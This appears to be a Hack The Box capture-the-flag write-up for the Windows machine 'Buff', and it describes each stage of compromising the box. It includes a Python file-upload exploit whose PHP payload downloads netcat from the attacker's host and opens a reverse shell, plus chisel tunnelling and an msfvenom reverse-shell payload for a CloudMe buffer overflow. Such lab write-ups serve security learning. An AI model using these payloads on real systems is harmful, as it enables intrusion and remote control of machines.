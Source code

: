 ```yaml
---
permalink: /portfolio/htb_windows/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: Buff
---
```


# Linux Hack The Box Writeup for Buff

## Enumeration

As always, we start of with an nmap:

```bash
sudo nmap 10.10.10.198 -p 7680,8080 -sC -sV -oN nmap.txt
```

Before this command I ran `nmap 10.10.10.198 -p-` to get the ports 7680 and 8080. The flag `-sC` stands for default enum-scripts, and the `-sV` flag is for the version enumeration scripts. `-oN` states that all the text-results should be saved to the file named `nmap.txt`. 

With the result:

```bash
# Nmap 7.80 scan initiated Tue Sep  1 11:06:01 2020 as: nmap -p 7680,8080 -sC -sV -oN nmap.txt 10.10.10.198
Nmap scan report for 10.10.10.198 (10.10.10.198)
Host is up (0.091s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  1 11:07:12 2020 -- 1 IP address (1 host up) scanned in 71.03 seconds
```

I don't know what `pando-pub` is, so let's take a look at the website first. It appears to be Gym-management software.

![gym](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/gym.png)

Alright, let's take a look around.

![contacts](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/contact.png)

A software name and version, perfect! So, we are dealing with `Gym Management Software 1.0` here. That does not sound secure, let's see if anyone already found an exploit:

```bash
searchsploit Gym Management
```

![searchsploit](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/searchsploit.png)

It appears a problem with filtering in a picture upload, in `upload.php`. If we put some image magic bytes in front of a php-script, it will accept it and we can run the php-script. Running the exploit found on exploit-db gives us this weird pseudo-shell, which sends a new request for every command. This is not usefull, so we have to edit it.

![pseudo](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/psuedo.png)

So, I modified it to this:

```python
import requests, sys, urllib, re

if __name__ == "__main__":
        SERVER_URL = 'http://10.10.10.198:8080/'
        UPLOAD_DIR = 'upload.php?id=shel'
        UPLOAD_URL = SERVER_URL + UPLOAD_DIR
        s = requests.Session()
        s.get(SERVER_URL, verify=False)
        png     = {
                'file': 
                  (
                    'kaio-ken.php.png', 
                    '\x89\x50\x4e\x47\x0d\x0a\x1a \n <?php echo shell_exec("powerShell (New-Object System.Net.WebClient).DownloadFile(\'http://10.10.14.16/nc.exe\' \'nc.exe\'); 2>&1; ./nc.exe -e cmd.exe 10.10.14.16 8090"); ?>',
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
        }
        fdata   = {'pupload': 'upload'}
        r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
        print r1.text

```

This payload sends a file upload to the victim with a php-script. This script executes a `powershell` command, to download netcat (`nc.exe`) and execute it with `cmd.exe` to my kali. This generates a reverse shell and allows me to do much more.

## Exploitation

In order to execute the script, we navigate to `http://10.10.10.198:8080/upload/shel.php`, this executes the uploaded php-script and allows us to get the shell. We do need to have a python-webserver running so the victim can download netcat and we need to have a netcat listener to catch it.

![shell](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/shell_win.png)

And there it is, a reverse shell!
This also gives us access to the `user.txt` file, located in `C:\Users\shaun\Desktop\user.txt`


## Privelege escaltion

So, how do we go from here? Well, after looking around shaun's home folder, I found `CloudMe_1112.exe` in his Downloads folder. This means that `Cloud Me` is installed, with version number `1112`, or `1_11_2`. This version is vulnerable to a buffer overflow.

![overflow](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/overflow.png)

But, this is a python-based exploit, so we cannot run this on the victim. To run this exploit, we need a reverse proxy, so we can use the locally open port. I used (`chisel`)[https://github.com/jpillora/chisel] for the proxy.

```bash
#kali
./chisel server --port 9002 --reverse

#victim
powerShell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.2/chisel.exe','C:\users\shaun\downloads\chisel.exe');
.\chisel.exe client 10.10.14.2:9002 R:8888:127.0.0.1:8888
```

Okay, now we have our reverse connection we can generate and run the exploit. We use the first exploit (`48389.py`), but we still need a payload for the victim to execute, let's generate that with `msfvenom`

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=8091 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
```

Still generates a byte-code payload for a reverse shell back to me. And after executing this we catch a shell on our listener!

![root](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/root_win.png)

Done!
